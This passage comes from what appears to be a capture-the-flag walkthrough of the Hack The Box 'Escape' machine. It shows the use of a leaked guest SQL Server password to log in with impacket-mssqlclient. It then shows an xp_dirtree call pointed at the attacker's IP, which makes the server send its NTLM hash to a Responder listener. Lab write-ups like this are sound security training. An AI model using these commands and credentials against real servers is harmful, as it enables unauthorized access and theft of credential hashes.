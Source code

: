 ```
The procedure is the same as the domain joined machine but you need to spawn a command prompt and run the following command: 

cmdkey /add:"<serverName>.sequel.htb" /user:"sequel\<userame>" /pass:<password> . 

Follow the other steps from above procedure.

If any problem arises, please send a mail to Brandon

Bonus
For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with user PublicUser and password GuestUserCantWrite1. Refer to the previous guidelines and make sure to switch the "Windows Authentication" to "SQL Server Authentication".
```

Ok Interesting. So from this note we've gathered 4 usernames:

Ryan
Tom
Brandon
PublicUser

As well as the password: GuestUserCantWrite1

We can use impacket-mssqlclient to login to the DB as PublicUser:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ impacket-mssqlclient 'sequel/PublicUser@10.10.11.202'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
```

Unfortunately we don't have the permissions to enable xp_cmmdshell and run system commamds:

```
SQL> EXECUTE sp_configure 'show advanced options',1;
[-] ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
```
Lets set up a Responder listener and use `XP_DIRTREE` to point back to our attacking machine and try to capture a hash:

```
EXEC master..xp_dirtree '\\10.10.14.60\share\'
```

escape_sql_hash.png
